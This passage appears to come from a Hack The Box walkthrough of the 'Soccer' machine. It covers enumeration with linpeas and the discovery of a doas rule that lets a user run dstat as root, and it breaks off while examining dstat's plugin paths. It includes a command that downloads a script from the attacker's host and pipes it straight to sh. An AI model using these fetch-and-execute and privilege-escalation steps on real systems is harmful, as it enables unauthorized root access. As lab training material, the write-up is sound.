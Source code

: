 Time to run `linpeas.sh`. A hack the box VM doesn’t have access to the internet. So I first download `linpeas.sh` to my local machine in `/tmp` with `curl -LO https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh` and then spin up a python HTTP server `python3 -m http.server`. This allows me to now download linpeas onto the box and immediately pipe it to `sh`:

```bash
player@soccer:~$ curl http://10.10.14.19:8000/linpeas.sh | sh

...[snip]...
╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root root 42K Nov 17  2022 /usr/local/bin/doas
-rwsr-xr-x 1 root root 140K Nov 28  2022 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-- 1 root messagebus 51K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 463K Mar 30  2022 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 23K Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 39K Feb  7  2022 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 55K Feb  7  2022 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
...[snip]...
```

In the `Files with Interesting Permissions` section I notice `doas` which is an alternative to `sudo` typically found on OpenBSD operating systems. But can also be installed on Debian-based Linux OSes like Ubuntu. I don’t see a `doas.conf` file in `/etc/` , so I decide to search the filesystem for it with `find`:

```bash
player@soccer:~$ find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
```

This file contains a single line, and shows me that the player user is allowed to run `/usr/bin/dstat` as root:

```bash
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

This is a tool for getting system information. Reading through the [man page](https://linux.die.net/man/1/dstat), I noticed that I can write my own plugins and have `dstat` execute them

> Paths that may contain external dstat\_\*.py plugins:
>
> ~/.dstat/ <br />
> (path of binary)/plugins/ <br />
> /usr/share/dstat/ <br />
> /usr/local/share/dstat/ <br />
